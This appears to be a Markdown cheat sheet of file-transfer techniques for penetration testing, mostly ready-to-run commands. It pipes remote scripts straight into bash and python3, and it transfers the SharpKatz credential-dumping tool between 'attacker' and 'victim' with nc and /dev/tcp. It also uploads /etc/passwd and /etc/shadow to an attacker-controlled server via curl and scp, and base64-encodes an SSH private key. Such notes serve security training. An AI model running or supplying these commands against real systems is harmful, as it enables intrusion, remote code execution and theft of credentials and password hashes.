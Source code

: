 # Content
- [Download Operations](#download-operations)
  - [Base64 Encoding / Decoding](#1-base64-encoding--decoding)
  - [Web Downloads](#2-web-downloads)
  - [SSH Downloads](#3-ssh-downloads)
  - [nc tools](#4-nc-tools)
- [Upload Operations](#upload-operations)
  - [Web Upload](#web-upload)
  - [Alternative Web File Transfer Method](#alternative-web-file-transfer-method)
  - [SCP Upload](#scp-upload)

# Download Operations

## 1) Base64 Encoding / Decoding
- encode
```bash
$ cat id_rsa |base64 -w 0;echo
```
- paste
```bash
$ echo -n '<base64>' | base64 -d > id_rsa
```

## 2) Web Downloads 

### with Wget and cURL
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Note:** Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.


```bash
$ exec 3<>/dev/tcp/10.10.10.32/80

$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

$ cat <&3
```

## 3) SSH Downloads
- start ssh
```
sudo systemctl start ssh
```
- connect to it
```
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## 4) nc tools
- **attacker**
```
## attacker lestin
sudo nc -l -p 443 -q 0 < SharpKatz.exe
sudo ncat -l -p 443 --send-only < SharpKatz.exe
## victim connect
sudo ncat -l -p 443 --send-only < SharpKatz.exe
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

## OR vicitm lestin
nc -l -p 8000 > SharpKatz.exe
ncat -l -p 8000 --recv-only > SharpKatz.exe
## attacker send
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

```

# Upload Operations

## Web Upload

- upload server
```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- get to it
```
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
- create web server
```
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000
```
- get from it 
```
wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload

```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

## nc tools
the same as in download in reverse
